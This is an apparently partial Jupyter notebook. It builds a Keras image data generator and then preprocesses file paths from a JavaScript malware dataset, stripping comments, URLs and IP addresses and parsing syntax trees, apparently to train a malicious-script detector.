        for i in range(10):
            print("============================"+str(i)+"=========================")
            print(list(traingen)[h][j][i])

In [7]:
# from tensorflow.keras.preprocessing.image import ImageDataGenerator

# train_datagen = ImageDataGenerator(rescale=1./255)
# target_size = (224, 224)

# train_generator = train_datagen.flow_from_directory('G:/JSContanaDataSet/',target_size=target_size,batch_size=32)

# model.fit(train_generator,epochs=num_epochs)

In [12]:
class CustomDataGen(keras.utils.Sequence):
    
    def __init__(self, df, X_col, y_col,batch_size,input_size=(224, 224, 3),shuffle=True):
        
        self.df = df.copy()
        self.X_col = X_col
        self.y_col = y_col
        self.batch_size = batch_size
        self.input_size = input_size
        self.shuffle = shuffle
        
        self.n = len(self.df)
        self.n_name = df[y_col['name']].nunique()
        self.n_type = df[y_col['type']].nunique()
    
    def on_epoch_end(self):
        pass
    
    def __getitem__(self, index):
        pass
    
    def __len__(self):
        return self.n // self.batch_size

In [13]:
def __get_input(self, path, bbox, target_size):

    xmin, ymin, w, h = bbox['x'], bbox['y'], bbox['width'], bbox['height']

    image = tf.keras.preprocessing.image.load_img(path)
    image_arr = tf.keras.preprocessing.image.img_to_array(image)

    image_arr = image_arr[ymin:ymin+h, xmin:xmin+w]
    image_arr = tf.image.resize(image_arr,(target_size[0], target_size[1])).numpy()

    return image_arr/255.

In [14]:
def __get_output(self, label, num_classes):
    return tf.keras.utils.to_categorical(label, num_classes=num_classes)

In [15]:
def __get_data(self, batches):
    # Generates data containing batch_size samples

    path_batch = batches[self.X_col['path']]
    bbox_batch = batches[self.X_col['bbox']]

    name_batch = batches[self.y_col['name']]
    type_batch = batches[self.y_col['type']]

    X_batch = np.asarray([self.__get_input(x, y, self.input_size) for x, y in zip(path_batch, bbox_batch)])

    y0_batch = np.asarray([self.__get_output(y, self.n_name) for y in name_batch])
    y1_batch = np.asarray([self.__get_output(y, self.n_type) for y in type_batch])

    return X_batch, tuple([y0_batch, y1_batch])

In [16]:
def __getitem__(self, index):

    batches = self.df[index * self.batch_size:(index + 1) * self.batch_size]
    X, y = self.__get_data(batches)        
    return X, y

In [17]:
def on_epoch_end(self):
    if self.shuffle:
        self.df = self.df.sample(frac=1).reset_index(drop=True)

In [18]:
class CustomDataGen(keras.utils.Sequence):
    
    def __init__(self, df, X_col, y_col,
                 batch_size,
                 input_size=(224, 224, 3),
                 shuffle=True):
        
        self.df = df.copy()
        self.X_col = X_col
        self.y_col = y_col
        self.batch_size = batch_size
        self.input_size = input_size
        self.shuffle = shuffle
        
        self.n = len(self.df)
        self.n_name = df[y_col['name']].nunique()
        self.n_type = df[y_col['type']].nunique()
    
    def on_epoch_end(self):
        if self.shuffle:
            self.df = self.df.sample(frac=1).reset_index(drop=True)
    
    def __get_input(self, path, bbox, target_size):
    
        xmin, ymin, w, h = bbox['x'], bbox['y'], bbox['width'], bbox['height']

        image = tf.keras.preprocessing.image.load_img(path)
        image_arr = tf.keras.preprocessing.image.img_to_array(image)

        image_arr = image_arr[ymin:ymin+h, xmin:xmin+w]
        image_arr = tf.image.resize(image_arr,(target_size[0], target_size[1])).numpy()

        return image_arr/255.
    
    def __get_output(self, label, num_classes):
        return tf.keras.utils.to_categorical(label, num_classes=num_classes)
    
    def __get_data(self, batches):
        # Generates data containing batch_size samples

        path_batch = batches[self.X_col['path']]
        bbox_batch = batches[self.X_col['bbox']]
        
        name_batch = batches[self.y_col['name']]
        type_batch = batches[self.y_col['type']]

        X_batch = np.asarray([self.__get_input(x, y, self.input_size) for x, y in zip(path_batch, bbox_batch)])

        y0_batch = np.asarray([self.__get_output(y, self.n_name) for y in name_batch])
        y1_batch = np.asarray([self.__get_output(y, self.n_type) for y in type_batch])

        return X_batch, tuple([y0_batch, y1_batch])
    
    def __getitem__(self, index):
        
        batches = self.df[index * self.batch_size:(index + 1) * self.batch_size]
        X, y = self.__get_data(batches)        
        return X, y
    
    def __len__(self):
        return self.n // self.batch_size

In [ ]:
traingen = CustomDataGen(train_df,
                         X_col={'path':'filename', 'bbox': 'region_shape_attributes'},
                         y_col={'name': 'name', 'type': 'type'},
                         batch_size=batch_siz, input_size=target_size)

valgen = CustomDataGen(val_df,
                       X_col={'path':'filename', 'bbox': 'region_shape_attributes'},
                       y_col={'name': 'name', 'type': 'type'},
                       batch_size=batch_siz, input_size=target_size)

model.fit(traingen,
          validation_data=valgen,
          epochs=num_epochs)

In [ ]:
# *************************************************************************************

In [1]:
import pandas as pd
from sklearn.metrics import accuracy_score, precision_score, recall_score, f1_score
from sklearn.model_selection import train_test_split
from sklearn.feature_extraction.text import CountVectorizer
from keras.models import Sequential
from keras import layers
from keras.backend import clear_session
from keras.preprocessing.text import Tokenizer
from keras.layers import Activation, Dense, Reshape 
import numpy as np
from keras import backend as K
import matplotlib.pyplot as plt
import pandas as pd
from keras.preprocessing.sequence import pad_sequences
from keras.layers import Embedding, LSTM, Dense, Bidirectional, Dropout, Conv1D, GlobalMaxPooling1D
from keras.models import load_model
from numpy import asarray
from numpy import save
from numpy import load
from sklearn.metrics import confusion_matrix
from sklearn.metrics import classification_report
import esprima as esp
import re
from keras.initializers import Constant
from tensorflow.keras.optimizers import Adam
from keras.losses import BinaryCrossentropy
from tensorflow.keras.utils import plot_model
from keras import Model
from tensorflow.keras.utils import Sequence
import pydot
import gensim 
from nltk.tokenize import word_tokenize
import pickle
from keras import backend as K
import os
import random
import re
from sklearn.metrics import accuracy_score, precision_score, recall_score, f1_score
import logging
from time import time
from functools import partial
# from concurrent.futures import ProcessPoolExecutor
import concurrent.futures
from threading import current_thread
from tqdm.notebook import tqdm
# from tqdm import tqdm
import gc
# Set the random seed for reproducible results
np.random.seed(123)
plt.style.use('ggplot')

In [2]:
def Decode_Stage(script):
#     script = urllib.parse.unquote(script)
    script = html.unescape(script)
    return script

In [3]:
def Generalization_Stage(x):
    x = x.lower()
    x, _ = re.subn(r'\d+', "0", x)
    x, _ = re.subn(r'(http|https)://[a-zA-Z0-9\.@/!&#\?]+',"http://u", x)
    return x

In [4]:
def Segmentation_Stage(x):
    seg = r'''(?x)[\w\.]+?\(|\)|"\w+?"|'\w+?'|http://\w|</\w+>|<\w+>|<\w+|\w+=|>|[\w\.]+/'''
    token = nltk.regexp_tokenize(x, seg)
    return token

In [5]:
def remove_comments(script):
    pattern = r"(\".*?\"|\'.*?\')|(/\*.*?\*/|//[^\r\n]*$)"
    # first group captures quoted script (double or single)
    # second group captures comments (//single-line or /* multi-line */)
    regex = re.compile(pattern, re.MULTILINE|re.DOTALL)
    def _replacer(match):
        # if the 2nd group (capturing comments) is not None,
        # it means we have captured a non-quoted (real) comment script.
        if match.group(2) is not None:
            return "" # so we will return empty to remove the comment
        else: # otherwise, we will return the 1st group
            return match.group(1) # captured quoted-script
    return regex.sub(_replacer, script)

In [6]:
def lowering_remove_url_ip_(script):
    """
    _ INPUT IS JS FILE 
    _ OUTPUT IS CLEAN JS FILE
    """
    script = remove_comments(script)
    script = re.sub(r'\w+:\/{2}[\d\w-]+(\.[\d\w-]+)*(?:(?:\/[^\s/]*))*', '', script) # **
    script = re.sub(r'((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)', '', script) # **
# #     script = re.sub(r"(/\*([^*]|[\r\n]|(\*+([^*/]|[\r\n])))*\*+/)|(//.*)",'',script)  # ---
    script = script.lower() # **
    return script

In [7]:
# my_df = pd.read_csv("G:\JSContanaDataSet\df_1.csv")
# my_df.head()

In [8]:
# my_df.shape

In [9]:
# my_df = my_df.sample(4000)
# my_df.to_csv("G:\JSContanaDataSet\my_df_1.csv", index=False)
my_df = pd.read_csv("G:\JSContanaDataSet\my_df_1.csv")

print(my_df.shape)
my_df.head()

(1203, 2)


,ScriptPath,Label
0,javascript-malware-collection-master\2016\2016...,1
1,javascript-malware-collection-master\2016\2016...,1
2,javascript-malware-collection-master\2016\2016...,1
3,javascript-malware-collection-master\2015\2015...,1
4,javascript-malware-collection-master\2016\2016...,1


In [10]:
# convert java script code to the abstract syntax tree
# then extract the sequences of syntax units with detailed information
def sequence_of_syntax_units(scripts):
    try:
        """
        sctipts : list or single javascript code 
        return sequence of syntax units
        each syntax unit correspond to line in an abstract syntax tree
        """
        if type(scripts) is list:
            # esp.parseScript(script) returns abstract syntax tree of each js scripts
            return [re.sub('\s+', ' ', ''.join(str(esp.parseScript(script)).split('\n'))) for script in scripts]
        elif type(scripts) is str:
            return re.sub('\s+', ' ', ''.join(str(esp.parseScript(scripts)).split('\n')))
        else:
            raise ValueError('The type of scripts parameter must be {list or string}')
    except:
        pass
    return None

In [11]:
def read__script(script_paths,parent_path):
    try :
        with open(os.path.join(parent_path,script_paths), 'r') as js_file:
            script = js_file.read()
#             print("read done")
#             script = Decode_Stage(script)
#             print("decode done")
            script = Generalization_Stage(script)
#             print("generalization done")
            script = lowering_remove_url_ip_(script)
#             print("lowering... done")
            script = sequence_of_syntax_units(script)
#             print("done all ")
#             print(script)
        return script
    except:
        print(script_paths)
    return None

In [12]:
list_X_train = []
list_y_train = []
for i,df_iterator in tqdm(my_df.iterrows()):
    X_train , y_train = read__script(df_iterator[my_df.columns[-2]],"G:\JSContanaDataSet"),df_iterator[my_df.columns[-1]]
    if X_train!=None:
        list_X_train.append(df_iterator[my_df.columns[-2]])
        list_y_train.append(df_iterator[my_df.columns[-1]])

In [16]:
len(list_X_train)

1203

In [17]:
len(list_y_train)

1203

In [18]:
sum(list_y_train)

1203

In [19]:
my_df = pd.DataFrame()

In [20]:
my_df['ScriptPath'] = list_X_train
my_df['Label'] = list_y_train

In [21]:
# my_df = my_df.sample(4000)

In [22]:
my_df.to_csv("G:\JSContanaDataSet\my_df_1.csv", index=False)

In [23]:
my_df = pd.read_csv("G:\JSContanaDataSet\my_df_1.csv")
print(my_df.shape)
my_df.head()

(1203, 2)


,ScriptPath,Label
0,javascript-malware-collection-master\2016\2016...,1
1,javascript-malware-collection-master\2016\2016...,1
2,javascript-malware-collection-master\2016\2016...,1
3,javascript-malware-collection-master\2015\2015...,1
4,javascript-malware-collection-master\2016\2016...,1


In [ ]:
df_0 = pd.DataFrame(columns=["ScriptPath","Label"])
df_0['ScriptPath'] = list_X_train
df_0['Label'] = list_y_train

In [ ]:
# df = pd.DataFrame(columns=["ScriptPath","Label"])
# df['ScriptPath'] = list_X_train
# df['Label'] = list_y_train

In [ ]:
df_0.to_csv('E:\df_0.csv', index=False)